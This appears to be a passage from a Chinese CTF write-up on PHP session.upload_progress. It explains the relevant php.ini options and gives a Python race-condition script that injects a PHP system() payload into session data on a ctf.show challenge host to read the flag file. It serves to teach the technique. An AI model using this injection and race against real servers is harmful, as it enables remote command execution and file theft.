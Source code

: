 ```
在php.ini有以下几个默认选项

1. session.upload_progress.enabled = on
2. session.upload_progress.cleanup = on
3. session.upload_progress.prefix = "upload_progress_"
4. session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
5. session.upload_progress.freq = "1%"
6. session.upload_progress.min_freq = "1"

其中
enabled=on表示upload_progress功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ；

cleanup=on表示当文件上传结束后，php将会立即清空对应session文件中的内容，这个选项非常重要；

name当它出现在表单中，php将会报告上传进度，最大的好处是，它的值可控；

prefix+name将表示为session中的键名
```

session文件包含和反序列化就是利用`session.upload_progress`,可以将上传的文件信息保存在session中.

###  文件包含

一般默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空，我们需要进行条件竞争.如果为`off`,就不需要利用条件竞争.

脚本：

文件上传

```python
import requests
import threading

session = requests.session()
sess = 'zzy' #上传文件的PHPSESSION的ID
url1 = "http://74a4727a-4f34-4d21-bd52-95c73db10eed.challenge.ctf.show:8080/"
url2 = "http://74a4727a-4f34-4d21-bd52-95c73db10eed.challenge.ctf.show:8080/upload/"
data1 = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("tac ../f*");?>'# 传入的恶意代码
}
file = {
    'file': 'zzy'
}
cookies = {
    'PHPSESSID': sess
}


def write():
    while True:
        r = session.post(url1, data=data1, files=file, cookies=cookies)


def read():
    while True:
        r = session.get(url2)
        if 'flag' in r.text:
            print(r.text)


threads = [threading.Thread(target=write),
           threading.Thread(target=read)]
for t in threads:
    t.start()
```

